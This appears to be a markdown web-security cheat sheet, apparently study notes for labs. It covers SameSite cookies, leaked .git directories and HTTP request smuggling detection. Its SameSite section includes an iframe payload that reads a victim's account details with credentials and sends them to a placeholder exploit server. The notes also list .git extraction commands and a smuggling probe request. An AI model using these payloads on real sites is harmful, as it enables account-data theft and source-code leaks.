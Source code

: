 ### Samesite

Some browsers will block a cookie with `SameSite=None` if the `Secure` flag is not also set.

`Lax` - not to send the cookie on cross-site requests. However, the browser will send the cookie during navigation when a user manually enters the URL in the browser or clicks a link to the site

`Strict` - will only send cookie if the request is same domain with cookie


```javascript
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" srcdoc="<script>
  var req = new XMLHttpRequest();
  req.onload = reqListener;
  req.open('get','$url/accountDetails',true);
  req.withCredentials = true;
  req.send();
  function reqListener() {
    location='$exploit-server-url/log?key='+encodeURIComponent(this.responseText);
  };
</script>"></iframe>
```

### Git Information Leak

- Check for `.git` directory
- `wget -r` then `git diff` `git diff HEAD~1 or 2` and so on to show previous commit changes
- `.git` might not be accessible but `/.git/HEAD` or `config` might be. nice to check.
- `git log`
- Don't forget to `git init`
- first 2 characters is directory `c3646db7f9c7e6f126c75900fdcce16d50e1da82` = `/.git/objects/c3/646db7f9c7e6f126c75900fdcce16d50e1da82`
- `git cat-file -p c3646db7f9c7e6f126c75900fdcce16d50e1da82`
- or use git tools [extractor](https://github.com/internetwache/GitTools/tree/master/Extractor)

### HTTP Request Smuggling

[portswigger video](https://www.youtube.com/watch?v=CpVGc1N_2KU)
[Albinowax' research](https://portswigger.net/research/http-desync-attacks-request-smuggling-reborn#demo)

Detecting
- Issue an ambiguous request followed by a normal 'victim' request, then observe whether the latter gets an unexpected response. **_prone to false negatives_**

If CL.TE the following will cause an observable delay.
If server is in sync this will get rejected OR harmlessly processed
If TE.CL the front end will reject the message without ever forwarding to the backend because of invalid chunk size 'Q'
```html
POST /about HTTP/1.1
Host: example.com
Transfer-Encoding: chunked
Content-Length: 4

1
Z
Q


```
